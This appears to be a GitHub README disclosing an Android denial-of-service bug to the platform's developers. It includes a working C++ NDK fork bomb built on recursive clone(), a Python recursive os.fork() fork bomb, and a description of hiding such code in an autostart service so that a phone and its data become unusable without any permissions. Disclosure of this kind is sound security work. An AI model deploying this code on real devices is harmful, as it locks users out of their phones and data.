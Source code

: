 # AndroidForkBomb
[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/02IdLrzgAs0/0.jpg)](https://www.youtube.com/watch?v=02IdLrzgAs0)

I found when I do such code exactly : (the code is in cpp using ndk - JNI ) :
```
  int cloneIt(void * args){
      for (int i = 0 ; i < 1000 ; i ++ ){
          pid_t  pid =  clone(cloneIt,
                              malloc(1),
                              CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID | SIGCHLD ,
                              NULL);
          __android_log_write(ANDROID_LOG_ERROR, "CLONE_ERRNO",
                              ("errno :  " + std::to_string(errno) + "  pid:" + std::to_string(pid )).c_str());
      }

      return 0 ;
  }
```
that function overflows the scheduler and makes the device unusable- it can't be turned off or do anything - use the touch or anything else until the battery dies. I found the bug when I played with python on termux and wrote that code :
```
import os
def cool():
    print(os.fork())
    cool()
cool()
```
so I reversed the sys calls using adb shell in the emulator - I opened termux and used strace and got that (attached file)

I am also attaching poc videos. I think this poc is critical because if someone puts such a function on autostart foreground service - the device and all of its data are worthless - it will just show the login wallpaper without turning off ( and without an option to do anything including turning off the device ). Thanks for the great os - Idan.
Please briefly explain who can exploit the vulnerability, and what they gain when doing so
every developer that have RCE or installed product with that code on the device .

no root privileges
do not require any permissions from the user - can be a method to make all the data unaccessable if the code will be in auto start service without any permissions .![image](https://github.com/user-attachments/assets/bc395092-1883-4d26-b7e3-3df93b7f59bc)


